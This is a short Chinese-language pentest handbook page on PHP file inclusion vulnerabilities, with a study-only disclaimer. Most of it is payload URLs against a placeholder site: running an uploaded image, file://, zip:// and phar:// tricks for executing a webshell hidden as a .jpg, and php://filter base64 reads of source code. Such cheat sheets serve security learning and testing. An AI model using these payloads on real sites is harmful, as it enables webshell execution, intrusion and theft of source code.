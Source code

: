 # 文件包含漏洞

---

## 免责声明

`本人撰写的手册,仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关。`

---

## Reference

- [聊聊安全测试中如何快速搞定Webshell](https://www.freebuf.com/articles/web/201421.html)

---

# 几种利用方法
## 常规利用

`Payload: http://www.test.com/test.php?file=upload/hourse.jpg&x=phpinfo()`

## 文件协议读取

其前提是得知道网站应用的绝对路径（物理路径）：

`Payload: http://www.test.com/test.php?file=file://D:/Server/htdocs/test/upload/hourse.jpg&x=phpinfo()`

结果和上面一样，只是地址栏链接不一样。

## 压缩包文件读取

依然需要知道压缩包文件的绝对路径

`Payload: http://www.test.com/test.php?file=zip://D:/Server/htdocs/test/upload/shell.zip%23shell.php&x=phpinfo())`

## phar:// 相对路径运行 PHP 文件

当我们想要运行自己的 PHP 文件，该咋做呐？通过文件包含（include,require 这类函数），首先构造一个这样的文件，将 webshell.php 添加到压缩文件 .zip，然后将压缩包后缀名改为 .jpg 反正合法的文件后缀即可（一般的操作是这样的，当只能上传图片的时候），最后使用 phar:// 按照相对路径读取并执行文件。

`Payload：http://www.test.php?file=phar://upload/shell.jpg/shell.php?x=phpinfo()`

## 读取源码

当我们没法儿上传文件，但是又想读取文件的源码来寻找别的漏洞从而进一步利用该怎么做呐？同样的利用 php://filter/ 协议可以实现，要注意的是，因为编码问题，一般我们会将读取的文件先 Base64 编码一下输出：

`Payload：http://www.test.com/test.php?file=php://filter/read=convert.base64-encode/resource=upload/shell.php`

